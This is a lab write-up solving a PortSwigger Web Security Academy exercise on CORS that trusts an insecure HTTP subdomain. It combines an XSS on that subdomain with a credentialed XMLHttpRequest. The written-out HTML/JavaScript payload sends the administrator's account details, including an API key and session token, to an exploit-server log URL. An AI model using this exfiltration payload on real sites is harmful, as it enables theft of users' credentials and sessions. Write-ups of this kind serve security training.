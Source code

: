 # CORS vulnerability with trusted insecure protocols

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-breaking-https-attack), you'll learn: CORS vulnerability with trusted insecure protocols! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227063843.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227063855.png)

**In the previous labs, we found that when we're logged in, it'll send a GET request to `/accountDetails`, which fetches account's data:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227063938.png)

**Let's send that request to Burp Repeater, and add a HTTP header called `Origin` with a random host:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064050.png)

Hmm... The response header doesn't reflect our `Origin` host.

**In the lab's background, it said:**

> This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

That being said, this website whitelists a trusted subdomain that is using **plain HTTP**.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227065527.png)

**After poking around the website, I found that the "Check stock" feature is using HTTP:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064909.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064919.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064934.png)

When I clicked the "Check stock" button, **it pops up another window that's pointing to `http://stock.0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/?productId=1&storeId=1`, which is a subdomain in `0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net`**

**Also, the `productId` parameter is vulnerable to XSS(Cross-Site Scripting)!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227065943.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227065956.png)

**Armed with above information, we can craft a XSS payload that contains the account details!**
```html
<html>
    <head>
        <title>CORS-3</title>
    </head>
    <body>
        <script>
            document.location="http://stock.0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener; req.open('get','https://0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='https://exploit-0a930014030dfc71c11e84f601550032.exploit-server.net/log?data='%2bthis.responseText; };;%3c/script>&storeId=1"
        </script>
    </body>
</html>
```

**Then host it on the exploit server, and test it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071205.png)

**Exploit server access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071239.png)

It worked!

**Let's deliver it to the victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071300.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071320.png)

```json
{
    "username": "administrator",
    "email": "",
    "apikey": "CPI6UWhwMcmQ1gbk2cCcL7fiD7kK1x0T",
    "sessions": [
        "W1JCjX2NapNO0t6baehAUl56QKVgJ23v"
    ]
}
```

**Let's submit that API key!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071404.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071429.png)

# What we've learned:

1. CORS vulnerability with trusted insecure protocols